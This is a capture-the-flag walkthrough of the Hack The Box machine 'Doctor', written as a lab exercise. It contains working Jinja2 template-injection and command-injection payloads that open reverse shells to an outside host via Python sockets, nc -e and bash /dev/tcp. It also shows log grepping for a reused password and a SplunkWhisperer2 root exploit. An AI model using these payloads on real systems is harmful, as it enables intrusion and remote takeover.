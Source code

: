 # HTB: Doctor Walkthrough

**Machine Info**
- OS: Linux
- Difficulty: Easy
- Points: 20
- IP: 10.10.10.209
- Created by: egotisticalSW

---

## 🧭 Recon

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.209
nmap -p 22,80,8089 -sCV -oA scans/nmap-tcpscripts 10.10.10.209
```

- Ports:
  - 22: SSH (OpenSSH 8.2p1)
  - 80: HTTP (Apache/2.4.41)
  - 8089: HTTPS (Splunkd)

Discovered a subdomain: `doctors.htb`

---

## 🌐 Web Enumeration

### Port 80
- Default Apache page
- Discovered email: `info@doctors.htb`
- Add `doctors.htb` to `/etc/hosts`

### doctors.htb
- Werkzeug Python web server with Flask
- Create account ➝ login ➝ "New Message"
- URL `/archive` provides RSS output ➝ SSTI confirmed

```jinja
{{7*7}} ➝ renders to 49 in /archive
```

---

## 🧨 Exploitation - Shell as `web`

### Server-Side Template Injection (SSTI)
```jinja
{% for x in ().__class__.__base__.__subclasses__() %}
  {% if "warning" in x.__name__ %}
    {{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect((\"10.10.14.6\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\", \"-i\"])'").read()}}
  {% endif %}
{% endfor %}
```

### Or Command Injection via POST
```bash
http://10.10.14.6/$(nc.traditional$IFS-e$IFS'/bin/bash'$IFS'10.10.14.6'$IFS'443')
```

---

## 👤 Shell as `shaun`

### Inspect logs due to `web` being in `adm` group:
```bash
grep -r passw /var/log
```

Found:
```bash
POST /reset_password?email=Guitar123
```

```bash
su - shaun
Password: Guitar123
cat /home/shaun/user.txt
```

---

## 🔐 Privilege Escalation to `root`

### SplunkWhisperer2 RCE Exploit

#### Get Splunk creds:
- shaun:Guitar123 also works for Splunk 8089

#### Run SplunkWhisperer2
```bash
python3 PySplunkWhisperer2_remote.py \
  --host 10.10.10.209 \
  --lhost 10.10.14.6 \
  --username shaun \
  --password Guitar123 \
  --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"
```

### Catch root shell:
```bash
nc -lnvp 443
id
cat /root/root.txt
```

---

## 🧠 Beyond Root

### Flask Session Hijack Post-Reset
- Cookies store `_user_id` ➝ reused after box reset to impersonate `shaun`

### Command Injection in FlaskForm
```python
os.system(f'/bin/curl --max-time 2 {url} -o {path}')
```

Any user input containing `$(...)` or backticks can result in RCE.

---

**Flags**
- User: ✅
- Root: ✅

**Techniques**
- Flask SSTI ➝ RCE
- Log analysis ➝ Password reuse
- SplunkWhisperer2 ➝ Root RCE